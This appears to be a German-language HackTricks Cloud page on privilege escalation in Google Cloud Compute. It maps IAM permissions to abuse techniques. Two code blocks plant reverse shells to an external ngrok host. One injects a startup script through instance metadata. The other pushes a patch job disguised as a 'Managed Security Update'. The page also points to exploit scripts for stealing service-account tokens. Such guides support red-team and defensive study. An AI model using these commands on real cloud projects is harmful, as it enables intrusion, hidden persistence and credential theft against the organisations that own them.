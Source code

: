 # GCP - Compute Privesc

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## Compute

Für weitere Informationen zu Compute und VPC (Netzwerk) in GCP siehe:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Beachte, dass du für alle Privilegieneskalationsangriffe, die eine Änderung der Metadaten der Instanz erfordern (wie das Hinzufügen neuer Benutzer und SSH-Schlüssel), **`actAs`-Berechtigungen über das an die Instanz angehängte SA benötigst**, selbst wenn das SA bereits angehängt ist!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Mit dieser Berechtigung kannst du die **Metadaten**-Informationen einer **Instanz** **ändern** und die **autorisierte Schlüssel eines Benutzers** **ändern** oder einen **neuen Benutzer mit sudo**-Berechtigungen **erstellen**. Daher wirst du in der Lage sein, über SSH in jede VM-Instanz zu exec und das GCP-Servicekonto zu stehlen, mit dem die Instanz läuft.\
Einschränkungen:

* Beachte, dass GCP-Servicekonten, die standardmäßig in VM-Instanzen ausgeführt werden, einen **sehr eingeschränkten Umfang** haben.
* Du musst **in der Lage sein, den SSH**-Server zu kontaktieren, um dich anzumelden.

Für weitere Informationen darüber, wie du diese Berechtigung ausnutzen kannst, siehe:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Du könntest diesen Angriff auch durchführen, indem du ein neues Startskript hinzufügst und die Instanz neu startest:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Diese Berechtigung gibt die **gleichen Privilegien wie die vorherige Berechtigung**, jedoch über spezifische Instanzen anstelle eines gesamten Projekts. Die **gleichen Exploits und Einschränkungen wie im vorherigen Abschnitt gelten**.

### `compute.instances.setIamPolicy`

Diese Art von Berechtigung ermöglicht es Ihnen, **sich selbst eine Rolle mit den vorherigen Berechtigungen zu gewähren** und Privilegien durch deren Missbrauch zu eskalieren.

### **`compute.instances.osLogin`**

Wenn **OSLogin in der Instanz aktiviert ist**, können Sie mit dieser Berechtigung einfach **`gcloud compute ssh [INSTANCE]`** ausführen und sich mit der Instanz verbinden. Sie **werden keine Root-Rechte** innerhalb der Instanz haben.

{% hint style="success" %}
Um sich erfolgreich mit dieser Berechtigung innerhalb der VM-Instanz anzumelden, müssen Sie die Berechtigung `iam.serviceAccounts.actAs` über das an die VM angehängte SA haben.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Wenn **OSLogin in der Instanz aktiviert ist**, können Sie mit dieser Berechtigung einfach **`gcloud compute ssh [INSTANCE]`** ausführen und sich mit der Instanz verbinden. Sie werden **Root-Rechte** innerhalb der Instanz haben.

{% hint style="success" %}
Um sich erfolgreich mit dieser Berechtigung innerhalb der VM-Instanz anzumelden, müssen Sie die Berechtigung `iam.serviceAccounts.actAs` über das an die VM angehängte SA haben.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Es ist möglich, **eine virtuelle Maschine mit einem zugewiesenen Dienstkonto zu erstellen und das Token** des Dienstkontos zu stehlen, indem man auf die Metadaten zugreift, um die Privilegien zu eskalieren.

Das Exploit-Skript für diese Methode finden Sie [hier](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Wenn Sie die Berechtigungen **`osconfig.patchDeployments.create`** oder **`osconfig.patchJobs.exec`** haben, können Sie einen [**Patch-Job oder eine Bereitstellung**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching) erstellen. Dies ermöglicht es Ihnen, lateral in der Umgebung zu bewegen und Codeausführung auf allen Compute-Instanzen innerhalb eines Projekts zu erlangen.

Beachten Sie, dass Sie im Moment **keine `actAs`-Berechtigung** über das an die Instanz angehängte SA benötigen.

Wenn Sie dies manuell ausnutzen möchten, müssen Sie entweder einen [**Patch-Job**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **oder** [**eine Bereitstellung**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)** erstellen.**\
Für einen Patch-Job führen Sie aus:

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Um ein Patch-Deployment bereitzustellen:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
Das Tool [patchy](https://github.com/rek7/patchy) konnte in der Vergangenheit für das Ausnutzen dieser Fehlkonfiguration verwendet werden (aber jetzt funktioniert es nicht).

**Ein Angreifer könnte dies auch für Persistenz ausnutzen.**

### `compute.machineImages.setIamPolicy`

**Gewähren Sie sich zusätzliche Berechtigungen** für das Compute-Image.

### `compute.snapshots.setIamPolicy`

**Gewähren Sie sich zusätzliche Berechtigungen** für einen Festplattensnapshot.

### `compute.disks.setIamPolicy`

**Gewähren Sie sich zusätzliche Berechtigungen** für eine Festplatte.

### Umgehung von Zugriffsberechtigungen

Folgen Sie diesem Link, um einige [**Ideen zur Umgehung von Zugriffsberechtigungen**](../) zu finden.

### Lokale Privilegieneskalation in GCP Compute-Instanz

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Referenzen

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

